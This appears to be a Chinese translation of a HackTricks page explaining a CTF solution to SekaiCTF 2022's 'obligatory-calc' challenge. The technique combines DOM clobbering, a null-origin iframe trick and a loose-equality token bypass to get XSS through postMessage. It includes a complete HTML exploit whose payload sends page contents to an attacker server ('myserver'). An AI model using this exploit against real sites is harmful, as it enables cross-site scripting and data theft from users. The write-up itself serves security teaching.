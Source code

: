 # 通过使用 iframe 绕过 SOP - 2

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 您在 **网络安全公司** 工作吗？ 您想看到您的 **公司在 HackTricks 中被宣传** 吗？ 或者您想访问 **PEASS 的最新版本或下载 HackTricks 的 PDF** 吗？ 请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* 发现我们的独家 [**NFTs**](https://opensea.io/collection/the-peass-family) 集合 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* **加入** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我的 **Twitter** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **通过向 [hacktricks 仓库](https://github.com/carlospolop/hacktricks) 和 [hacktricks-cloud 仓库](https://github.com/carlospolop/hacktricks-cloud)** 提交 PR 来分享您的黑客技巧。

</details>

## SOP-2 中的 iframe

在这个 [**挑战**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc) 的 [**解决方案**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic\_) 提出了与上一节类似的方法。 让我们来看看。

在这个挑战中，攻击者需要 **绕过** 这个：
```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```
如果他这样做，他可以发送一个包含HTML内容的**postmessage**，该内容将被写入页面中的**`innerHTML`**，而不经过消毒处理（**XSS**）。

绕过**第一个检查**的方法是将**`window.calc.contentWindow`**设置为**`undefined`**，将**`e.source`**设置为**`null`**：

- **`window.calc.contentWindow`** 实际上是**`document.getElementById("calc")`**。您可以使用**`<img name=getElementById />`**来覆盖**`document.getElementById`**（请注意，消毒器API-[此处](https://wicg.github.io/sanitizer-api/#dom-clobbering)-未配置为在其默认状态下防范DOM覆盖攻击）。
- 因此，您可以使用**`<img name=getElementById /><div id=calc></div>`**来覆盖**`document.getElementById("calc")`**。然后，**`window.calc`** 将变为**`undefined`**。
- 现在，我们需要将**`e.source`**设置为**`undefined`**或**`null`**（因为使用`==`而不是`===`，**`null == undefined`**为**`True`**）。获得这个是“容易的”。如果您创建一个**iframe**并从中**发送**一个**postMessage**，然后立即**删除**该iframe，**`e.origin`**将变为**`null`**。请检查以下代码
```javascript
let iframe = document.createElement('iframe');
document.body.appendChild(iframe);
window.target = window.open("http://localhost:8080/");
await new Promise(r => setTimeout(r, 2000)); // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`);
document.body.removeChild(iframe); //e.origin === null
```
为了绕过关于令牌的**第二次检查**，可以通过发送值为`null`的**`token`**并使**`window.token`**的值为**`undefined`**来实现：

- 在postMessage中发送值为`null`的`token`是微不足道的。
- **`window.token`** 在调用使用**`document.cookie`**的函数**`getCookie`**中。请注意，在**`null`**来源页面中访问**`document.cookie`**会触发一个**错误**。这将使**`window.token`**的值为**`undefined`**。

[**@terjanq**](https://twitter.com/terjanq)的最终解决方案如下： [**following**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html)
```html
<html>
<body>
<script>
// Abuse "expr" param to cause a HTML injection and
// clobber document.getElementById and make window.calc.contentWindow undefined
open('https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"');

function start(){
var ifr = document.createElement('iframe');
// Create a sandboxed iframe, as sandboxed iframes will have origin null
// this null origin will document.cookie trigger an error and window.token will be undefined
ifr.sandbox = 'allow-scripts allow-popups';
ifr.srcdoc = `<script>(${hack})()<\/script>`

document.body.appendChild(ifr);

function hack(){
var win = open('https://obligatory-calc.ctf.sekai.team');
setTimeout(()=>{
parent.postMessage('remove', '*');
// this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
// token=null equals to undefined and e.source will be null so null == undefined
win.postMessage({token:null, result:"<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>"}, '*');
},1000);
}

// this removes the iframe so e.source becomes null in postMessage event.
onmessage = e=> {if(e.data == 'remove') document.body.innerHTML = ''; }
}
setTimeout(start, 1000);
</script>
</body>
</html>
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> - <a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 你在**网络安全公司**工作吗？想要看到你的**公司在HackTricks中被宣传**吗？或者想要访问**PEASS的最新版本或下载HackTricks的PDF**吗？查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 探索[**PEASS Family**](https://opensea.io/collection/the-peass-family)，我们独家的[NFT收藏品](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS & HackTricks周边**](https://peass.creator-spring.com)
* **加入** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我在**Twitter** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **通过向[hacktricks repo](https://github.com/carlospolop/hacktricks)和[hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)提交PR来分享你的黑客技巧**。

</details>
